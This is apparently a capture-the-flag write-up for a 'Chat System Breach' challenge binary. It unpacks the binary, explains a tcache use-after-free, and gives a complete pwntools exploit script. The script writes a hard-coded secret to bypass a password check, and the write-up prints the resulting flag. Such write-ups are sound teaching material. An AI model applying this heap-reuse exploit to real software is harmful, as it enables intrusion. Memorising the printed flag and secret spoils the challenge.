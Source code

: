 # Chat System Breach - Writeup

---

## Exploit Demo

This demo illustrates the step-by-step exploit process:

![Alt text](gif/ChatSystemBreach.gif)

---

## Binary Inspection

We begin by analyzing the binary for further reversing and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit statically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary appears to be Packed with UPX.

![Alt text](img/2.png)

---

### Step 3: Unpacking the binary

```bash
$ upx -d main
```

We unpack the binary with UPX tool to make it analyzable .

![Alt text](img/3.png)

---

### Step 4: Checking binary format again

```bash
$ file main
```

Post-unpacking, the binary is 64-bit stripped of symbol information.

![Alt text](img/4.png)

---

### Step 5: Rechecking security after unpacking

```bash
$ pwn checksec main
```

The `checksec` output for `main` shows: 64-bit AMD architecture, Partial RELRO, no stack canary, NX enabled, and PIE enabled.

![Alt text](img/5.png)

---

## Static Analysis (IDA Pro)

The first thing that stood out was that both the chat name and password buffers are allocated with the same size (`0x40`). This immediately suggested a potential tcache reuse: if we free the chat name and then allocate a password, the new `s1` pointer will point to the same memory previously used by the chat name, enabling a use-after-free exploit.

## ![Alt text](img/8.png)

![Alt text](img/9.png)

## How to solve

This binary implements a chat system vulnerable to a classic **tcache-based use-after-free (UAF)**. Exploiting this UAF allows us to write arbitrary data into the "password" buffer (`s1` chunk), which is critical for bypassing a password check in `verify_password()`. Successfully passing the check triggers a call to `system("./log")` revealing the flag.

---

## Vulnerability Summary

- A 0x40-byte chunk is allocated for the chat name.
- During chat deletion, this chunk is freed and placed into the tcache freelist.
- The deletion can be canceled, leaving the chat struct valid but the name chunk freed.
- The password buffer (`s1`) is later allocated using `malloc(0x40)` — it reuses the freed chunk.
- Renaming the chat writes into the `s1` buffer.
- Writing the correct secret string (`"53cr37_c0d3"`) triggers `system("./log")`.

---

## Exploit Strategy

1. **Create a chat**  
   Allocates:

   - 0x208-byte struct chunk
   - 0x40-byte chunk for the name (stored at `struct->[1]`)

2. **Free the name chunk but cancel deletion**

   - `delete_chat()` frees the name chunk
   - Choose **N** to cancel → struct remains alive
   - Chunk is now in tcache

3. **Allocate the password buffer (`s1`)**

   - `s1 = malloc(0x40)` → reuses the tcache chunk

4. **Rename chat**

   - `rename_chat()` writes into `struct->[1]` → now also `s1`

5. **Write the secret and verify**

   - Input: `"53cr37_c0d3"`
   - Check: `strncmp(s1, "53cr37_c0d3", 11)`
   - Success: `system("./log")`

---

## Exploit script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      No RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Packer:     Packed with UPX

io = start()

def new_chat(idx, name, msg):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', name.ljust(0x40, b'\x00'))
    io.sendafter(b'reply ASAP :', msg)

def delete_chat(idx, confirm):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'(Y/N):', confirm)

def rename_chat(idx, new_name):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', new_name.ljust(0x40, b'\x00'))

def verify_password():
    io.sendlineafter(b'> ', b'7')

new_chat(0, b'dexter', b'dexter')

delete_chat(0, b'N')

io.sendlineafter(b'> ', b'5')

rename_chat(0, b'53cr37_c0d3')

verify_password()

io.interactive()

```

---

## Result

After successful password verification, the binary executes:

```c
system("./log");
```

This outputs the contents of the `./log` file — presumably the **flag**.

## ![Alt text](img/7.png)

## FLAG

After verification, we retrieve the flag from the program’s output.

```
RedPointer{9#zF@4T$3n!VmC82&xLpQ1r*X6~dEj}
```
